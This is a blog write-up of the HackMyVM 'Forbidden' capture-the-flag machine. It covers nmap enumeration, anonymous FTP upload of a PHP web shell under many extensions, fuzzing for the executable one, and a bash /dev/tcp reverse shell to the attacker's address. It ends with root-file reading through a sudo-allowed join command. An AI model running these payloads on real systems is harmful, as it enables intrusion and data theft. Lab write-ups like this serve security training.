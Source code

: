 ```yaml
---
layout: post
author: maxin
title:  "Forbidden"
date:   2022-01-01 09:37:31 PM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Forbidden)

# Enumeration

{% highlight text  %}
# Nmap 7.92 scan initiated Wed Dec 29 15:11:02 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.162
Nmap scan report for 192.168.0.162
Host is up (0.017s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Oct 09  2020 www [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.216
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open  http    nginx 1.14.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Unix

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 29 15:11:10 2021 -- 1 IP address (1 host up) scanned in 7.46 seconds
{% endhighlight  %}

# Port 80

On index.html we can see a message

{% highlight text  %}
SECURE WEB/FTP
Hi, Im the best admin of the world. You cannot execute .php code on this server 
so you cannot obtain a reverse shell. 
Not sure if its misconfigured another things... but the importart is that php is disabled. 
-marta
{% endhighlight  %}

This webserver has 3 file.  You can see those files connecting on FTP

- index.html
- notes.txt → A message saying about a password on a .jpg file
- robots.txt

# Port 21

Using default creds `anonymous` with a blank password

We can see the `www` directory it’s the same on webserver directory. We can try to upload some files

# Reverse shell

We can’t upload a php file, because the webserver disabled, but we can try to upload different versions of it 

First we need to create a wordlist with the extensions

{% highlight bash  %}
cat /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-extensions-lowercase.txt| grep "^.php" > extensions
{% endhighlight  %}

![Untitled](/images/forbidden/phpFiles.png)

Second we need to create a directory to storage all the files with the extensions

We need to create a directory ‘cause we’ll send all this files to FTP server

{% highlight bash  %}
mkdir files; cd files
for i in $(cat ../extensions); do touch "file$i"; done 
{% endhighlight  %}

{% highlight bash  %}
echo "<?php system(\$_GET['cmd']); ?>" > * #Send this payload to all files
{% endhighlight  %}

Connect to the FTP server and upload all the files

{% highlight bash  %}
mput *
{% endhighlight  %}

## Fuzzing

Using the wordlist created to fuzzing

{% highlight bash  %}
wfuzz -w extensions.dic -c -u "http://192.168.0.162/fileFUZZ" --hw 3

00000003:   200   0 L     0 W     0 Ch    ".php5"
{% endhighlight  %}

Use burp to make a reverse shell

{% highlight bash  %}
bash -c "bash -i >& /dev/tcp/192.168.0.216/4444 0>&1"
{% endhighlight  %}

![Untitled](/images/forbidden/reverseShell.png)

# User

On `marta’s` home directory has a hidden file, called .forbidden. We can execute this file and become `markos` user

# Root

On /var/www/html has a file called TOPSECRETIMAGE.jpg

Marta’s password is: TOPSECRETIMAGE

{% highlight bash  %}
sudo -l #Has marta

User marta may run the following commands on forbidden:
    (ALL : ALL) NOPASSWD: /usr/bin/join
{% endhighlight  %}

{% highlight bash  %}
sudo join -a 2 /dev/null /root/root.txt
{% endhighlight  %}
